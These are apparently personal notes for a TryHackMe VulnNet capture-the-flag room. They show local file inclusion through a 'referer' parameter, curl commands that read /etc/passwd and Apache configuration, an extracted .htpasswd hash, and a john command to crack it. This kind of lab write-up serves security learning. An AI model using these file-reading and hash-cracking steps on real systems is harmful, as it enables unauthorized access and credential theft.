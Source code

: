 
2025-01-30 22:44

Source: #Boot2root

After adding the IP to `/etc/hosts`, we do some directory busting which leads us nowhere so we [[crawling a website]] to find links 

Checking the source code of the main page reveals 2 JavaScript imports at the end of the code
- The analysis of the first script will reveal the following subdomain - `http://broadcast.vulnnet.thm`
- The second script reveals that `index.php` accepts a `referer` parameter - `http://vulnnet.thm/index.php?referer=`
#### LFI 

Browsing this new subdomain prompts for a basic authentication, which is a dead end at this stage. Let’s check the other information.

Injecting `/etc/password` as `referer` confirms that the page suffers from a Local File Inclusion ([[LFI]])
```sh
curl -s http://vulnnet.thm/?referer=/etc/passwd
```

Let’s check in the Apache configuration files 
```sh
curl -s http://vulnnet.thm/?referer=/etc/apache2/sites-enabled/000-default.conf
```

from the above command we get to know that the password file is located in  `/etc/apache2/.htpasswd`
```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

the username is developers and the `md5crypt` hash is to the right
use to john to crack the hash 
```sh
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```




### References
[TryHackMe | VulnNet](https://tryhackme.com/r/room/vulnnet1)

walktrough
[TryHackMe-VulnNet - aldeid](https://www.aldeid.com/wiki/TryHackMe-VulnNet)
[VulnNet Tryhackme Writeup. By Shamsher khan This is a Writeup of… | by Shamsher khan | InfoSec Write-ups](https://infosecwriteups.com/vulnnet-tryhackme-writeup-3a5bd68b0959)
[TryHackMe — Vulnnet WriteUp/Walkthrough | by Arnav singh | Medium](https://medium.com/@arnavsinghinfosec/tryhackme-vulnnet-writeup-walkthrough-3b7846b24416)